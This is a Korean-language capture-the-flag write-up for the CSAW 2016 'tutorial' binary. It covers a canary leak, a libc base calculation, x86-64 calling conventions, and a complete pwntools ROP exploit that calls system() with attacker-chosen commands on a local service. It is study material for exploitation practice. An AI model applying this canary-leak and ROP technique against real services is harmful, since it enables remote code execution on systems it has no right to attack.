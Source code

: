 # tutorial
### CSAW 2016
***tutorial은 CSAW 2016에 출제된 문제입니다.***

tutorial을 실행시 에러가 났었는데 저는 아래 방법으로 해결했습니다.
```
user add를 이용하여 tutorial 계정을 만들어 주어야합니다.

그 후 sudo ./tutorial [PORT]으로 실행해 주면 잘 되더라구요 :)
```

tutorial에 접속하면, 아래 그림과 같이 3가지 선택지가 나옵니다.

![Alt text](https://github.com/Funniest/System-study/blob/master/tutorial/img/Main.PNG)

여기서 1번 메뉴는 아래와 같이 puts의 주소를 뿌려줍니다. ㄱㅇㄷ

![Alt text](https://github.com/Funniest/System-study/blob/master/tutorial/img/Func1.PNG)

2번 메뉴는 오버플로우가 일어나는 선택지 입니다.

![Alt text](https://github.com/Funniest/System-study/blob/master/tutorial/img/Func2.PNG)

sub rsp, 150 -> 0x150만큼 버퍼 생성

[rpb+s] -> 0x140부터 입력을 받기 시작합니다.

[rbp+var_8] -> Canary

정리해 보면 0x138(buf) + canary(8) + SFP(8) = 0x148(328)만큼 받고, 입력은 0x1CC만큼 받습니다.

└ read(fd, buf, 0x1CC)

필요한 가젯들과 시나리오를 정리하기 전 제가 몰랐던 것을 잠깐 적고 넘어가겠습니다.

### Calling Convention
```
32bit는 함수를 콜할때 스택을 써서 pop ret가젯을 사용합니다.
하지만 64bit는 32bit와 다르게 레지스터를 이용하여 함수를 콜합니다.
순서는 다음과 같습니다.
1. RDI
2. RSI
3. RDX
4. RCX
5. R8
6. R9
와 같은 순으로 넣어준 뒤 콜을 해야합니다.

반면 64bit윈도우 에서의 순서를 보겠습니다.
1. RCX
2. RDX
3. R8
4. R9
와 같은 순으로 받고 그 이상은 스택을 사용합니다.
```

### Stack frame
```
32bit의 stack frame은 함수가 실행될 때 그 함수가 사용하는 만큼 스택을 생성했었습니다.
이 부분은 아직 잘 이해가 안가는 부분인데, 64bit의 Stack frame은
함수에서 필요한 스택 크기보다 크게 스택을 확보한다고 합니다.
다른 서브 함수를 호출할 때에는 push명령을 상요했던 것과 다르게
생성된 스택에 mov명령을 이용하여 전달한다고 합니다.
또한 Stack frame을 구성할 때에도 RBP레지스터를 이용하지않고, RSP 레지스터를 이용하여 구현합니다.

[참고] 
```

### Gadget 잘라쓰기
![Alt text](https://github.com/Funniest/System-study/blob/master/tutorial/img/gadget.PNG)

만약 위 처럼 pop x 7 ret이 있다고 해서 필요한 가젯이 ppr이면 아래 그냥 ppr만 때어 썻는데,

저 가젯에서 만약 나는 pop rdi가젯이 필요해! 라고 한다면, 0x21102주소를 넣어주면 됩니다.

이렇게 되면 옵코드가 5f, c3이 되고 결국에는 pop rdi ret이 되는 것 입니다.

### libc파일에서 가젯 offset가져와 libc base주소에 더해버리기!
libc파일의 가젯들을 사용할 수 있다는 사실을 오늘 처음 알았습니다...

그냥 단순히 함수 offset가져와 더해버리면 없는 함수도 실행할수 있구나.. 라고 생각했는데,

이번 문제를 풀면서 libc안에 있는 pop ret가젯들도 전부 사용할 수 있다는 것을 알게되었습니다. (놀람!!)

***신기 방기XD***

이것 저것 많이 알게되서 정말 좋았던것 같습니다 :) !!

이제 익스플로잇 가젯들을 정리해 보면,
```
1. Canary
2. libc base address
3. read plt
4. write plt
5. puts got
6. libc puts offset
7. libc system offset
8. pop rdi
9. pop rsi
10. pop rdx
```
이 필요합니다.

익스플로잇 순서는
```
1. canary를 leak합니다.
2. 익스플로잇에 필요한 가젯들을 구합니다.
3. 구한 가젯들을 조합해서 페이로드를 작성합니다.
      └ menu 1번에서 주는 puts got를 받아 libc system offset과 빼어 libc base를 구합니다.
      └ 구한 libc base에 pop rdi, rsi, rdx과 system의 offset에 더해 실제 주소를 구합니다.
      └ read plt를이용하여 bss영역에 명령어를 씁니다.
      └ 그후 system에 bss를 인자로 주어 호출합니다.
```

***※하루 동안 고생한 부분이 있었는데, puts got를 뿌릴때 -1280을 해서 뿌려서 +1280을 해줘야합니다.***

***※문제에서 libc 2.19를 주는데 풀이 환경에 따라 다릅니다. (아래 명령어를 이용해서 확인)***
```
cat /proc/process nubmer/maps를 하면 로컬에서 어떤 libc쓰는지 보이더라구요!
주현이 땡큐~~
```

### 소스코드
Ubuntu 16 LTS 64 bit환경에서 테스팅 하였습니다.
```
from pwn import *

r = remote('127.0.0.1', 9977)
elf = ELF('./tutorial')
libc = ELF('./libc-2.23.so')

#get Canary!
print r.recvuntil(">")
r.sendline("2")
print r.recvuntil(">")

payload = "A" * 311

r.sendline(payload)
print r.recvuntil('\n')
canary = u64(r.recv(8))
print "canary : " + str(canary)

#exploit!
#using objdump -h and -d
read_plt = elf.plt['read']
write_plt = elf.plt['write']
bss = elf.bss()

print "read : " + hex(read_plt)
print "write : " + hex(write_plt)

#get pop gadget in rop online!
poprdi = 0x21102
poprsi = 0x202e8
poprdx = 0x1144b6

cmd = "ls -al"

libc_puts = libc.symbols['puts'] #objdump -d libc-2.19.so | grep puts
libc_system = libc.symbols['system'] #objdump -d libc-2.19.so | grep puts

#get libc base (puts_got - libc_puts = libc base)
print r.recvuntil(">")
r.sendline("1")
print r.recvuntil("Reference:")

puts_got = int(r.recv(14), 16)+1280
print "puts got : " + hex(puts_got)
print "libc puts : " + hex(libc_puts)

libc_base = puts_got - libc_puts

#offset calc
poprdi = libc_base + poprdi
poprsi = libc_base + poprsi
poprdx = libc_base + poprdx

system = libc_base + libc_system
print "system : " + hex(system)

#send payload
print r.recvuntil(">")
r.sendline("2")
print r.recvuntil(">")

payload = "A" * 312
payload += p64(canary)
payload += p64(0x4141414141414141)

payload += p64(poprdi)
payload += p64(0x04)
payload += p64(poprsi)
payload += p64(bss)
payload += p64(poprdx)
payload += p64(len(cmd))
payload += p64(read_plt)

payload += p64(poprdi)
payload += p64(bss)
payload += p64(system)

r.send(payload)
print "== payload =="
print payload.encode('hex')

print "== echo =="
print r.recv(2048).encode('hex')
r.send(cmd)

print "=- END -="

#r.interactive()
```
